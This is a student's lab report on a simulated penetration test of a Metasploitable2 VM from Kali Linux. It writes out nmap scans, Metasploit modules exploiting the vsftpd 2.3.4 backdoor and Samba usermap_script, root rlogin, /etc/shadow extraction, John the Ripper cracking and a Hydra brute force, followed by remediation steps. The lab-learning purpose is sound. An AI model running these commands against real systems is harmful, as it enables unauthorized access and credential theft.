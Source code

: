 
Advanced Network Exploitation and Defense Simulation

Student Name: Ankit Kumar
ERP: 6604992
Course: B.Tech IT
Semester: 4th
Section: B
Date: 18/05/2025

⸻

1. Project Objective

This project simulates real-world cyberattacks in a safe virtual lab to understand penetration testing and defense mechanisms. It covers reconnaissance, scanning, enumeration, exploitation, privilege escalation, password cracking, and security remediation. It teaches how to responsibly identify vulnerabilities using Kali Linux as the attacker and Metasploitable2 as the vulnerable target.

⸻

2. Theory & Background

Penetration Testing (Ethical Hacking) is a simulated attack on a system to evaluate its security posture.

Phases of Penetration Testing:
	1.	Reconnaissance – Passive and active gathering of target information.
	2.	Scanning & Enumeration – Discovering open ports, services, and system details.
	3.	Exploitation – Using vulnerabilities to gain unauthorized access.
	4.	Post-Exploitation – Privilege escalation, persistence, data access.
	5.	Remediation – Securing vulnerabilities to protect systems.

⸻

3. Lab Setup

Component	Details
Attacker OS	Kali Linux (2023 or later)
Target OS	Metasploitable 2
Virtualization	VMware Workstation / VirtualBox
Network Type	Host-Only or Bridged Network

Why Metasploitable?
	•	It contains intentional vulnerabilities for training.
	•	Compatible with Metasploit, Nmap, and John the Ripper.

⸻

4. Tools Used

Tool	Purpose
Nmap	Network scanner for ports, OS, and service detection
Metasploit	Exploitation framework
John the Ripper	Password cracking tool
Netcat / Telnet	Manual banner grabbing and connections


⸻

5. Step-by-Step Tasks with Explanation

⸻

Task 1: Network Discovery and Scanning

Basic Scan

nmap -v 192.168.160.131

	•	-v: Verbose output.
	•	Purpose: Shows basic open ports and host status.

Scan All Ports (0–65535)

nmap -v -p- 192.168.160.131

	•	-p-: Scan all 65535 ports.
	•	Use: To find ports that may be hidden or non-standard.

Service Detection

nmap -v -sV 192.168.160.131

	•	-sV: Detects version of running services.
	•	Helps identify known vulnerabilities in outdated software.

OS Detection

nmap -v -O 192.168.160.131

	•	-O: Attempts to identify the Operating System based on TCP/IP stack fingerprinting.

⸻

Task 2: Enumeration

After scanning, we enumerate:
	•	Open ports and their services
	•	OS details
	•	MAC address, workgroup, etc.

Command Example

nmap -A 192.168.160.131

	•	-A: Aggressive scan includes OS, version, script scanning, traceroute.

⸻

Task 3: Exploitation

⸻

1. Exploit vsftpd 2.3.4 (Backdoor via Port 21)

msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.160.131
set RPORT 21
run

	•	Exploits CVE-2011-2523
	•	Vulnerability: Backdoor shell opens when username contains :)

⸻

2. Exploit Samba (SMB Port 445)

search smb_version
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.160.131
run

Then for exploitation:

use exploit/multi/samba/usermap_script
set RHOST 192.168.160.131
run

	•	CVE-2007-2447
	•	Allows arbitrary code execution through username map script.

⸻

3. Exploit R Services (rexec, rlogin, rsh on Ports 512–514)

nmap -p 512,513,514 -sC -sV --script=vuln 192.168.160.131

	•	--script=vuln: Runs vulnerability detection scripts.

If .rhosts allows root login:

rlogin -l root 192.168.160.131


⸻

Task 4: Privilege Escalation

Create a User with Root Privileges

adduser ankit
passwd ankit
usermod -aG sudo ankit

	•	usermod -aG sudo: Adds user to sudoers group for root rights.

⸻

Task 5: Password Hash Extraction & Cracking

1. View Hashed Password

cat /etc/shadow | grep rahul

2. Save Hash to File

nano ankit_hash.txt

(Paste hash)

3. Crack Password using John

john ankit_hash.txt

To show cracked password:

john ankit_hash.txt --show


⸻

6. Remediation Steps

1. FTP (vsftpd 2.3.4)
	•	CVE: CVE-2011-2523
	•	Fix: Upgrade to vsftpd 3.0.5 or switch to SFTP

sudo apt-get update
sudo apt-get install vsftpd


⸻

2. Samba SMB (v3.0.20)
	•	CVE: CVE-2007-2447, CVE-2017-7494
	•	Fix:
	•	Upgrade to Samba 4.20.1
	•	Disable guest access
	•	Edit /etc/samba/smb.conf

⸻

3. R Services
	•	Outdated and insecure
	•	Fix:

sudo systemctl disable rsh.socket rlogin.socket rexec.socket
sudo apt purge rsh-client rlogin rsh-server


⸻

7. Extra Tools and Additions

Hydra (For Brute-force Login)

hydra -l root -P /usr/share/wordlists/rockyou.txt ftp://192.168.160.131

Nikto (Web vulnerability scanner)

nikto -h http://192.168.160.131


⸻

8. Major Learnings
	•	Practical understanding of scanning, exploitation, and remediation
	•	Hands-on with Nmap, Metasploit, and John
	•	Learned user and password handling on Linux
	•	Identified real-world CVEs and fixed them manually